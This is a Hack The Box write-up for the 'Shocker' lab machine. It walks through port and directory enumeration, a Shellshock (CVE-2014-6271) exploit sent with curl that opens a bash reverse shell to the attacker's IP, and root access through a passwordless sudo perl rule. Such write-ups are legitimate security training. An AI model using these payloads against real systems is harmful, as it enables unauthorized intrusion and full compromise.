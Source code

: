 # HTB_Shocker


This is my write-up for the Shocker machine on Hack The Box. I exploited a Shellshock vulnerability in a Bash CGI script to gain initial access, then escalated to root using a simple sudo misconfiguration.

---



### Nmap
I started with a full port scan:

```bash
nmap -A -Pn -p- -T4 10.129.163.43
````

![Nmap Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Nmap1.png)


**Open ports:**

- `80/tcp` – Apache httpd 2.4.18
    
- `2222/tcp` – OpenSSH 7.2p2
    

The rest were filtered.

### Web Checks


![Whatweb](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/whatweb.png)



- `whatweb` confirmed Apache 2.4.18
    
- Edited `/etc/hosts` to include:
    
    ```
    10.129.163.43 shocker.htb
    ```
    

---

## Web Enumeration

I ran both `dirsearch` and `gobuster` to find hidden paths.

```bash
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/gobuster.png)

![Dirsearch Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Dirsearch.png)



That revealed `/cgi-bin/`.

Then I focused on that path with extensions:

```bash
gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi
```

![Gobuster Directory Brute Force](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Gobuster%20Brute%20Force.png)


Found:

```
/cgi-bin/user.sh
```

## Vulnerability Discovery

While enumerating the /cgi-bin/ directory, I found a Bash script named user.sh. When I accessed it, it returned uptime information, which hinted that it was being executed server-side — a typical CGI behavior.

Knowing the server was running Apache 2.4.18 (confirmed by Nmap and WhatWeb), i google it and found that it's vulnerable to (CVE-2014-6271).
CVE-2014-6271 : known as Shellshock, which allowed remote code execution by injecting a malicious payload nt http headers like User-Agent. 

![CVE-2014-6271](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/CVE-2014-6271.png)

---


### Reverse Shell

I set up my listener:

```bash
nc -lvnp 4444
```

![listener](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Listener.png)



Then launched the attack:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.71/4444 0>&1'" http://shocker.htb/cgi-bin/user.sh
```

Got a shell as user `shelly`.

![Shell](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Got%20a%20Shell.png)

---

## Privilege Escalation

First, I checked for sudo rights:

```bash
sudo -l
```

Output:

```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

That means I could run Perl as root with no password.

### Root Shell

I used:

```bash
sudo perl -e 'exec "/bin/bash";'
```
Confirmed with `whoami` — I was root.


![Root](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Root.png)

---

## Flags

- `user.txt`: Found in `/home/shelly/
    
- `root.txt`: Found in `/root/root.txt

---

## Notes

This machine was a good refresher on CGI-Bash vulnerabilities and the Shellshock CVE. I avoided using Metasploit or automated exploits — everything was done manually to improve my process understanding.

---

**Written by:** Ibrahim Ismaeel  
[GitHub Profile](https://github.com/IbrahimAlbadrani)
